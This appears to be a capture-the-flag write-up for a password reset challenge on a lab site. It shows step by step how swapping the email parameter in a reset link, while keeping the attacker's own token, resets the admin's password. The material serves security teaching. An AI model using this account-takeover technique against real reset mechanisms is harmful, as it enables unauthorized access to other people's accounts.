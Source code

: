 # Challenge #1 - Password Reset 1- 4

## Credentials:
Username: atk
Password: atk

## Objectives

- All the http://*.pwdreset.site web applications implement different password reset mechanisms.
- Your job is to find a way to exploit these implementations in order to reset the password of any user you want.

## Hints

- Recommended tools
  - Web browser
  - Burp Suite

## Steps

With burp suite enable login the system. The welcome show a list of users as below.

```
Welcome atk

    Username: atk
    Password: atk
    Email: atk@atk.com 

List of users

Username: admin || Email: admin@pwdreset.site
Username: atk || Email: atk@atk.com
Username: darkenedjump || Email: Suspendisse.dui@nequeSedeget.net
Username: slipperyraspy || Email: sagittis@scelerisque.ca
```

Do logout, them click in reset password and them continue.

```
http://4.pwdreset.site/forgot.php
```

A message will appear saying that you have a email message, click on the link. You have one message with a link to reset the password.

```
From: admin@pwdreset.site Message:

Someone requested a password reset for the following account:
Username: atk

If this was a mistake, just ignore this email and nothing will happen.
To reset your password, visit the following address: http://4.pwdreset.site/reset_pwd.php?useremail=atk@atk.com&token=MjY4ZjgyMjVlNGQ
```

Copy the link, change the useremail with one from the list on the first page and them sent to the browser.

```
http://4.pwdreset.site/reset_pwd.php?useremail=admin@pwdreset.site&token=MjY4ZjgyMjVlNGQ
```

Set a new password for this user and them login using this new credentials.
